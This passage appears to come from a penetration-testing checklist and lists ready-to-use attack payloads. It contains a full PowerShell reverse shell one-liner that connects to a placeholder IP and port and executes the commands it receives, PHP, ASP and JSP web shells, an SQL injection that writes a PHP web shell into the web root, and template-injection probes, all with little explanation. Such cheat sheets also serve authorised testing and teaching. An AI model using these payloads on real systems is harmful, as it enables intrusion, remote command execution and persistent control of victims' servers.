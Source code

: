 ##### Windows Reverse Shells
- [ ] **PowerShell**:
  ```powershell
  powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('IP',PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
  ```

#### Web Shell Techniques
- [ ] **PHP Web Shells**:
  ```php
  <?php system($_GET['cmd']); ?>
  <?php echo shell_exec($_REQUEST['cmd']); ?>
  <?php eval($_POST['cmd']); ?>
  ```
- [ ] **ASP Web Shells**:
  ```asp
  <%eval request("cmd")%>
  ```
- [ ] **JSP Web Shells**:
  ```jsp
  <%Runtime.getRuntime().exec(request.getParameter("cmd"));%>
  ```

### Advanced Exploitation Techniques

#### SQL Injection to Shell
- [ ] **File Write via SQLi**:
  ```sql
  UNION SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/html/shell.php"
  ```
- [ ] **UDF Exploitation**: User-defined function exploitation in MySQL

#### Deserialization Attacks
- [ ] **PHP Object Injection**: Look for unserialize() usage
- [ ] **Java Deserialization**: Test for serialized objects in requests
- [ ] **Python Pickle**: Dangerous pickle.loads() usage

#### Template Injection
- [ ] **Server-Side Template Injection (SSTI)**:
  ```
  {{7*7}}  # Jinja2/Twig
  ${7*7}   # Freemarker
  #{7*7}   # Velocity
  ```

---

## 🔓 Phase 4: Advanced Post-Exploitation
